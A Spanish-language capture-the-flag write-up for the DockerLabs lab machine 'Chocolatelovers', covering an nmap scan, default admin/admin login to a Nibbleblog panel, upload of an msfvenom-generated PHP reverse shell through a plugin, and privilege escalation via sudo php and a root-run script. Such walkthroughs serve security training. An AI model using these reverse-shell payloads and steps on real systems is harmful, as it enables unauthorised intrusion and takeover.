 ```yaml
---
title: Chocolatelovers - DockerLabs
published: true
categories: DockerLabs
---
```

## Video de YouTube
<iframe width="560" height="315" src="https://www.youtube.com/embed/8lJjajSuY9k" frameborder="0" allowfullscreen></iframe>

 
| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  | Fácil       | ElPinguinoDeMario | 


## Escaneo y Reconocimiento de puertos

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.

![image](https://github.com/romabri/romabri.github.io/assets/51706860/bfd9e0e3-2b4d-42be-b144-3ed39924fefa)


`nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2`
- `-p-` - Busqueda de puertos abiertos
- `--open` - Enumera los puertos abiertos
- `-sS` - Es un modo de escaneo rapido
- `-sC-` - Que use un conjunto de scripts de reconocimiento
- `-sV` - Que encuentre la version del servicio abirto
- `--min-rate=5000` - Hace que el reconocimiento aun vaya mas rapido mandando no menos de 5000 paquetes
- `-n` - No hace resolución DNS
- `-Pn` - No hace ping
- `-vvv` - Muestra en pantalla a medida que encuentra puertos (Verbose)

Vemos que esta abierto el puerto 80 `HTTP`

## Web

![image](https://github.com/romabri/romabri.github.io/assets/51706860/fb5d58ca-8a81-4384-b634-b8b8907fa723)

Vamos a mirar en el codigo fuente.

![image](https://github.com/romabri/romabri.github.io/assets/51706860/15bcd4a1-3e83-4d7a-a84f-cc6ddd24d93e)

Esto es posiblemente una ruta de la web vamos a ver que hay

![image](https://github.com/romabri/romabri.github.io/assets/51706860/884137c1-2ece-4a50-9345-6dcc177e240a)

Tenemos un enlaze que nos lleva al admin.php nos encontramos con un panel de acceso

![image](https://github.com/romabri/romabri.github.io/assets/51706860/d419a092-2b27-49b6-9f5d-6a8adcd7cf63)

Si ponemos admin admin accedemos

![image](https://github.com/romabri/romabri.github.io/assets/51706860/f735b18e-139e-4b90-a288-d222e587df93)

Si vamos a Plugins hemos de instalar el plugin My image, y ahi haremos lo siguiente:

![image](https://github.com/romabri/romabri.github.io/assets/51706860/f7bc22a4-cdfa-4436-8554-e854239476d3)

Generaremos un payload con msfvenom para generar una reverse shell en un archivo php de la siguiente manera

msfvenom -p php/reverse_php LHOST=172.17.0.1 LPORT=443 -f raw > pwned.php

Este archivo lo subiremos dandole a browse y save changes.

Una vez hecho esto si investigamos un poco por la web vemos que en este repositorio estan los plugins http://172.17.0.2/nibbleblog/content/private/plugins/

![image](https://github.com/romabri/romabri.github.io/assets/51706860/75627b58-ee4c-4b21-81b5-9202645d5aa1)

El archivo malicioso se nos ha subido es el image.php.

Ahora vamos con net cat a quedarnos en escucha y veremos si nos manda una reverse shell.

## Intrusión

![image](https://github.com/romabri/romabri.github.io/assets/51706860/557c85c6-c4d0-493f-8510-63fcce632fd3)

Ya estamos dentro de la maquina
Si hacemos sudo -l vemos que como el usuario chocolate podemos ejecutar el php vamos a buscar como escalar con PHP

![image](https://github.com/romabri/romabri.github.io/assets/51706860/4d7c1a8d-a85a-41f1-969d-a3d5310b67c8)

## Escalada de privilegios

![image](https://github.com/romabri/romabri.github.io/assets/51706860/db03520a-1046-4e53-8226-d6d59e2d8ed7)

Ya hemos escalado 
Si hacemos un ps -e -f
Vemos un script que lo ejecuta root que no hay nada dentro vamos a intentar escalar a traves de ahí.

![image](https://github.com/romabri/romabri.github.io/assets/51706860/a05e06e0-4587-4753-ab45-ee98faee46f1)

Modificamos el script introduciendo una reverse-shell.php de las webshells la ip la ponemos a nuestra maquina atacantes y el puerto por ejemplo ponemos el 1122 y si esperemos un momento...

![image](https://github.com/romabri/romabri.github.io/assets/51706860/8c5b94b6-c189-4340-a44a-a94a65d4c090)

YA SOMOS ROOT!



















